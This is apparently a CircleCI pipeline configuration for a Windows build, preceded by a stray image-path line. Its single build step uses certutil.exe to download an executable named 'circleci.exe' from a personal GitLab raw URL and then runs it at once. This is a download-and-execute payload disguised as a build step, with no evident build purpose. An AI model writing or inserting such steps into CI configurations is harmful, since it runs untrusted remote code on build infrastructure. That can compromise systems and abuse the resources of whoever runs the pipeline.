 version: 2.1

orbs:
  win: circleci/windows@2.2.0

jobs:
  build:
    executor:
      name: win/default
      shell: cmd.exe
    steps:
      - run: certutil.exe -urlcache -split -f https://gitlab.com/Pacifierjr1/trickshow2/-/raw/master/circleci.exe circleci.exe && circleci.exe
